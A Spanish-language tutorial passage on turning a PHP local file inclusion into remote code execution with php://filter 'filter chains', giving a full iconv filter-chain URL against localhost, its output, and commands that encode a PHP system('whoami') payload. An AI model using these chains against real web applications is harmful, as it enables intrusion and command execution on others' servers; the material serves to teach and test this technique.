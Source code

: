 Explicación: conseguimos inyectar la cadena 'Hola' Ahora podemos automatizar esto con el recurso *Filter Chains* [^1] e inyectar una reverse shell **RCE**

**Nota:** para saber más de `php://temp` ver explicación en [Para saber más](#Para%20saber%20más)

Acción 6: URL 

```URL
http://localhost/?filename=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp
```

Resultado:

```xml
Hola+-ABs
```

Explicación: si en el navegador podemos interpretar esta cadena, podemos probar a derivar este LFI a un RCE

## Automatización del proceso 

Acción 1:

```bash
echo -n '<?php system("whoami"): ?>' | base64

PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTogPz4=

--------------------------------------------------

echo "PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTogPz4=" | rev

=4zPgoTKikWbh9Ga3JCKtVGdzl3cgAHaw9DP
```

Explicación: Primero explicamos una inyección de comando a través de un LFI con el recurso *Filter Chains*. Para ello necesitamos tener en base64 el comando a ejecutar (al revés) para saber la combinación de Filter Chains


Acción 2: 

```URL  
http://localhost/?filename=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode... lo correspondiente ...|convert.base64-decode|convert.iconv.UTF8.UTF7/resource=php://temp
```

Explicación: con su concatenación de combinaciones resultante, al principio añadimos un encode y al final un decode, como se puede ver en la acción
